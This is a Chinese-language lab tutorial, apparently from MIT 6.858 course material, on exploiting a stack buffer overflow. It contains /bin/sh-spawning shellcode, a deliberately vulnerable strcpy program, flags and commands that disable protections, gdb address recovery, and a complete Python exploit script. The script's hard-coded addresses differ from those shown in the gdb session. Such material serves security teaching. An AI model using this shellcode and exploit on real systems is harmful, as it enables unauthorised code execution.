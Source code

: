 

## 启动 shell 的代码：

```s
#include <sys/syscall.h>

#define STRING  "/bin/sh"
#define STRLEN  7
#define ARGV    (STRLEN+1)
#define ENVP    (ARGV+8)

.globl main
        .type   main, @function

 main:
        jmp     calladdr

 popladdr:
        popq    %rcx
        movq    %rcx,(ARGV)(%rcx)       /* set up argv pointer to pathname */
        xorq    %rax,%rax               /* get a 64-bit zero value */
        movb    %al,(STRLEN)(%rcx)      /* null-terminate our string */
        movq    %rax,(ENVP)(%rcx)       /* set up null envp */

        movb    $SYS_execve,%al         /* syscall arg 1: syscall number */
        movq    %rcx,%rdi               /* syscall arg 2: string pathname */
        leaq    ARGV(%rcx),%rsi         /* syscall arg 2: argv */
        leaq    ENVP(%rcx),%rdx         /* syscall arg 3: envp */
        syscall                 /* invoke syscall */

        movb    $SYS_exit,%al          /* syscall arg 1: SYS_exit (60) */
        xorq    %rdi,%rdi               /* syscall arg 2: 0 */
        syscall                 /* invoke syscall */

 calladdr:
        call    popladdr
        .ascii  STRING
```

## 编译生成二进制指令：

```sh
$ cc -m64   -c -o shellcode.o shellcode.S
$ objcopy -S -O binary -j .text shellcode.o shellcode.bin
```

- cc 是 C 编译器的命令，通常是指向系统默认的 C 编译器（比如 GCC）。
  - `-m64` 使编译器生成 64 位的目标文件。
  - `-c` : Compile and assemble, but do not link.

- objcopy 是一个 GNU 工具，用于将目标文件中的数据进行转换。
  - `-S` 在复制节（sections）时保持节的大小。(Remove all symbol and relocation information)
  - `-O binary` 将目标文件转换成纯二进制格式。
  - `-j .text` 只复制目标文件中的 .text 节，也就是代码节。


## 假定一个被攻击的代码：

```c
#include <string.h>
#include <stdio.h>
#include <unistd.h>

void first128(char *str) {
  char buffer[128];
  strcpy(buffer, str);
  printf("%s\n", buffer);
}

int main(int argc, char **argv) {
  static char input[1024];
  while (read(STDIN_FILENO, input, 1024) > 0) {
    first128(input);
  }
  return 0;
}
```

## 运行并通过 gdb 获取所需信息

```sh
gcc -g -fno-stack-protector -z execstack vulnerable.c -o vulnerable -D_FORTIFY_SOURCE=0
```

- `-fno-stack-protector` 禁用内存金丝雀
- `-z execstack` 使得栈可执行（禁用 Write XOR Execute）
- `-D_FORTIFY_SOURCE=0` 禁用 Fortified Source：即关闭对于的栈溢出的宏检测


```sh
env - setarch -R ./vulnerable
```

- `env -` 清除运行环境并运行程序（如果有环境变量插入到程序中，会改变周围的地址）
- `setarch -R` 禁用 ASLR(Address-Space Layout Randomization)

在另一个终端中使用 gdb 连接正在等待输入的程序：

```sh
$ gdb -p $(pgrep vulnerable)
GNU gdb (Ubuntu 12.1-0ubuntu1~22.04) 12.1
...
```

首先设置断点并运行：

```sh
(gdb) b first128
Breakpoint 1 at 0x55555555519f: file vulnerable.c, line 7.
(gdb) run < input.txt
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/panda/MIT/6.858/stack_overflow/vulnerable < input.txt
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, first128 (str=0x555555558040 <input> "2333") at vulnerable.c:7
(gdb)
```

现在程序停在刚进入 `first128` 函数并初始化完函数栈帧的位置（声明了 buffer[128] 之后）。

首先查看本地变量 buffer（位于栈中） 的地址：

```sh
(gdb) print &buffer[0]
$1 = 0x7fffffffd6b0 ""
```

然后打印整个栈帧内容，查看保存的寄存器信息：

```sh
(gdb) info frame
Stack level 0, frame at 0x7fffffffd740:
 rip = 0x55555555519f in first128 (vulnerable.c:7); saved rip = 0x5555555551e8
 called by frame at 0x7fffffffd760
 source language c.
 Arglist at 0x7fffffffd730, args: str=0x555555558040 <input> "2333"
 Locals at 0x7fffffffd730, Previous frame's sp is 0x7fffffffd740
 Saved registers:
  rbp at 0x7fffffffd730, rip at 0x7fffffffd738
```

- buffer 的首地址为 `0x7fffffffd6b0`
- 当前栈帧中保存的 rip 寄存器的值为 `0x7fffffffd738`（即当前函数的返回地址）

## 使用 python 脚本构造输入并注入程序

给之前的 .bin 代码填充至占满 buffer 并溢出到截止至保存的 rip 寄存器的地址之前，并在最后添加 buffer 的地址，即替换函数返回地址为 shellcode 的即使地址（也即 buffer 的起始地址）：

```py
#!/usr/bin/env python3
import os, sys, struct

addr_buffer = 0x7fffffffece0
addr_retaddr = 0x7fffffffed68

# We want buffer to first hold the shellcode
shellfile = open("shellcode.bin", "rb")
shellcode = shellfile.read()

# Then we want to pad up until the return address
shellcode += b"A" * ((addr_retaddr - addr_buffer) - len(shellcode))

# Then we write in the address of the shellcode.
# struct.pack("<Q") writes out 64-bit integers in little-endian.
shellcode += struct.pack("<Q", addr_buffer)

# write the shell code out to the waiting vulnerable program
fp = os.fdopen(sys.stdout.fileno(), 'wb')
fp.write(shellcode)
fp.flush()

# forward user's input to the underlying program
while True:
    try:
        data = sys.stdin.buffer.read1(1024)
        if not data:
            break
        fp.write(data)
        fp.flush()
    except KeyboardInterrupt:
        break
```

从输入注入 shellcode 并运行程序：

```sh
./exploit.py | env - setarch -R ./vulnerable
```

